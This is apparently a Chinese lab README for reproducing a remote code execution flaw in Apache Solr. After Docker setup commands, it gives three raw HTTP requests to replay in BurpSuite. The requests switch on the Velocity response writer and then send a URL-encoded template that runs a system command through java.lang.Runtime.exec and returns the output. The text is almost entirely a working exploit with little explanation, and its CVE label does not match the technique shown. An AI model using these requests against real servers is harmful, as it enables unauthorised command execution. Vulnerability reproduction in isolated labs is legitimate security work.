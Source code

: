 # Apache Solr CVE-2019-0193 环境搭建漏洞复现

 docker pull scxiaotan2/apache-solr:cve-2019-0193  # 拉去镜像
 
 docker run -it scxiaotan2/apache-solr:cve-2019-0193 /bin/bash #启动shell

./start.sh #启动根目录下的服务

netstat -tlnp #可以看到983端口启用了



# Solr CVE-2019-0193 漏洞复现

使用BurpSuite 对数据包重放

第一步：
GET /solr/te1/config HTTP/1.1
Host: 172.17.0.3:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.3:8983/solr/
Connection: close

第二步：
post /solr/te1/config HTTP/1.1
Host: 172.17.0.3:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.3:8983/solr/
Connection: close
Content-Length: 259



{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

}


第三步
post /solr/te1/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1
Host: 172.17.0.3:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.3:8983/solr/
Connection: close
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
